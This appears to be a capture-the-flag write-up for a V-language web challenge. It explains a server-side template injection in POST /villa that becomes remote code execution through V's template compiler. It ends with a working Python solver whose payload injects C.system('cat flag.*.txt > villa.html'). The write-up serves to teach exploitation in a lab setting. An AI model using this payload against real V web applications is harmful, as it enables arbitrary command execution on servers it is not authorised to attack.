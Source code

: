 ```html
             |   | .| |__|__|  |%%%:%%___| |' .'.|   .'  
             |___|__|___________%%::%______|.'.|   .'  
           .|   '-=-.'            :'       .|    .'  
         .|   '   .               :      .|    .'  
       .|   '   .                       .|   .'  
      |'--'|==||'--'|'--'|'--'|'--'|'-'|   .'  
      =jim================================'  
</pre>
```

### Solution

The handler `GET /villa` reads a template from `villa.html` and renders it using `$vweb.html()`.

There is a SSTI (server-side template injection) in `POST /villa`. The attacker could write the payload in `owner` field, it will be inserted in the file `villa.html` without any sanitization.

The intended solution requires reading the standard library's template engine. The source code is here: [vlib/v/parser/tmpl.v](https://github.com/vlang/v/blob/master/vlib/v/parser/tmpl.v). The engine translates the template into a vlang code and compiles it, therefore there is an RCE vulnerability.

For example the attacker could exploit CSS matcher:

[vlib/v/parser/tmpl.v#L397](https://github.com/vlang/v/blob/715dc3116123b69abe25d14536cad18da6bd7ab6/vlib/v/parser/tmpl.v#L397)

```v
} else if line_t.starts_with('.') && line.ends_with('{') {
    // `.header {` => `<div class='header'>`
    class := line.find_between('.', '{').trim_space()
    trimmed := line.trim_space()
    source.write_string(strings.repeat(`\t`, line.len - trimmed.len)) // add the necessary indent to keep <div><div><div> code clean
    source.writeln('<div class="${class}">')
    continue
}
```

A line between `'.'` and `'{'` is inserted into the template's code without any modification. The simplest way is using `C.system()` function which runs a shell command in a separate process.

Example solver:

```python
#!/usr/bin/env python3

import sys
import time
import requests

HOST = sys.argv[1] if len(sys.argv) > 1 else 'localhost'
PORT = int(sys.argv[2]) if len(sys.argv) > 2 else 17171

URL = f'http://{HOST}:{PORT}/villa'

while True:
    try:
        payload = "\n. '); C.system('cat flag.*.txt > villa.html'.str); println(' {\n"
        requests.post(URL, data = payload)

        response = requests.get(URL)
        print(response.content)

        if b'brics+' in response.content:
            break
    except Exception as e:
        print(e)
```